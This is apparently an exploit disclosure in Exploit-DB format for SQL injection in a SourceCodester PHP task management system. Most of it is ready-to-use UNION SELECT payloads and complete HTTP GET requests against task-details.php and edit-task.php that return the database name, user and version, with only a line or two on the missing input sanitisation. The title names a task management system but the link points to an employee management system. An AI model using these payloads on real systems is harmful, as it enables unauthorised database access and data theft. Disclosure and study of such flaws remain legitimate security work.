


# Exploit Title: Authenticated SQL Injection in PHP Task Management System
# Date: 2024-03-04
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
# Version: 1.0
# Tested on: Linux / PHP 8 & MariaDB

## Task Details

task_id parameter is vulnerable to SQL Injection. Attacker can query database via crafted GET request using payload such as ``` ' UNION SELECT null,null,database(),user(),version(),null,null,null -- -```.

Example Request :

	GET /task-details.php?task_id='%20UNION%20SELECT%20null,null,database(),user(),version(),null,null,null%20--%20- HTTP/1.1
	Host: 192.168.88.129
	Cookie: PHPSESSID=eq37jo682mlrca0ot0ablkhii3
	Upgrade-Insecure-Requests: 1


Application gets task_id parameter and uses it in sql query directly without any sanitization. In task-details.php, user supplied parameter task_id is used directly in sql query as shown figure below. You can spot vulnerable code snippet in given figure.
![[sqliCode.png]]

## Edit Tasks
task_id parameter is also vulnerable to SQL Injection in edit-task.php. Payload such as ``` ' UNION SELECT null,null,database(),user(),version(),null,null-- -``` can be used.

Example Request :

	GET /edit-task.php?task_id=%27%20UNION%20SELECT%20null,null,database(),user(),version(),null,null--%20- HTTP/1.1
	Host: 192.168.88.129
	Cookie: PHPSESSID=eq37jo682mlrca0ot0ablkhii3
	Upgrade-Insecure-Requests: 1



